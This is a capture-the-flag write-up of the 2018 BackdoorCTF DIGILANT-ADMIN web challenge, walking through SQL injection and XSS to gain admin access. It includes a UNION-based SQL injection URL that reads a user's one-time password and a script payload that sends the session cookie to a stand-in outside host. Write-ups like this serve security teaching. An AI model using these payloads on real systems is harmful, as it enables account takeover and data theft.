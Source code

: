 ```yaml
---
layout: post
title: BackdoorCTF 2018 - DIGILANT-ADMIN
author:
  name: Crisis
  github: Qrisis
  twitter: crisiswic
---
```


Here's my solution for the DIGILANT-ADMIN challenge of the *2018 BackdoorCTF*. I'm not sure wether I got the flag the intended way since there has been quite a few technical problems during the event, but here's how I did it anyway.

First of all, this was the challenge's description:
![](https://i.imgur.com/vemjbMy.png)

Once on the website, you could create an account by providing an email address, and then log in with the OTP sent to that email address.
![](https://i.imgur.com/Bch0ZOm.png)

Once logged in, the main thing you could do was to post a new message:
![](https://i.imgur.com/qY08mZY.png)
And report messages to the admin :
![](https://i.imgur.com/KOyK8oe.png)

The other interesting thing was the "Giveme flag" page, which stated:
```
No admin No flag
```


So my first idea was of course to try and find an exploitable XSS to log in as admin. I tried a few things, but it wasn't executing on the URL where you could see your post:
```
http://51.15.73.163/DIGILANT-ADMIN/posts.php?id=000af61e777d34ab
```
So I tried a few other things, and I found that the id parameter was vulnerable to an SQL injection and to an XSS injection :
![](https://i.imgur.com/2pIbQat.png)

I tried to steal the admin cookie with that XSS, but the bot wasn't clicking on my link. And the results of the SQL injections were also confusing at first since I couldn't read them. After testing a few things, I found out why - the results were decrypted as base64 before being returned. So the easy fix was to base64 encode it, as such:
![](https://i.imgur.com/zXCRAmp.png)

Since I wasn't successfull with the XSS, I decided to try exploiting the SQLi to get the admin pass and OTP. With the help of SQLMap, I dumped the content of the database:
![](https://i.imgur.com/87bPuIJ.png)
etc.
![](https://i.imgur.com/TlhkZJE.png)
etc.

And in theory I could have been done since I could have just logged in as "admin" and got the OTP directly from the database:
```sql
http://51.15.73.163/DIGILANT-ADMIN/posts.php?id=-1' UNION ALL SELECT to_base64(otp) FROM OTP WHERE umail='2d3686a381fa880ddab@gmail.com' -- -
```
But the problem was that I had no way to know which user was the admin. As you can see on the screenshot above there was many "random hash" accounts, and none of the accounts with the name "admin" in them was the real one. After trying a few of them, I decided to find another way rather than stupidly trying them all.
In the dump of the database, I noticed that many people had reported URLs like this:
![](https://i.imgur.com/UQigMAO.png)

That gave me a big hint. I had already noticed that HTML/JS was being executed on the homepage, and upon closer inspection of the code it turned out that there was a way to exploit an XSS in your posts:
![](https://i.imgur.com/m3cyYe3.png)

You just had to access your post's URL with `&full=true` appended to it:
![](https://i.imgur.com/L8RjsKN.png)

I made a new one with the standard
```html
<script>location.replace('yoursite.com?cookie='+document.cookie)</script>
```
injection, and I got the admin's PHPSESSID on requestbin:
![](https://i.imgur.com/6kwpoqS.png)

I modified my cookie, but got kicked out:
```
Login attempted from another IP address. Login again
```
Which was a problem since I still had no idea what the admin username was. But it turned out that if you tried logging in again with any account, you could briefly see the admin's name:
![](https://i.imgur.com/gFq9PJw.png)

I'm not sure wether this was intended or not. All I had to do then was to login with that username and get the OTP from the database, as shown before. But that wasn't even necessary, because if you entered a wrong OTP, the website would just show you the right one (here I just put "12" in):
![](https://i.imgur.com/sBZPX8Z.png)

Not sure if that was a bug or not either, but you could then just log in like that. And get the flag from the "Giveme flag" page :
![](https://i.imgur.com/1jyENgf.png)
